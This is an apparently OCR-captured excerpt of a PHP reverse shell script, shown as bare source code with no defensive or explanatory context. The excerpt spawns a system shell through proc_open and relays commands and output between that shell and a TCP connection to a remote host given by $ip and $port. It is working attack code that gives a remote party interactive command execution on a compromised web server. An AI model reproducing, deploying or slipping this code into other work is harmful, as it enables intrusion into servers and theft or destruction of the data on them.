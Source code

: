```php
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

```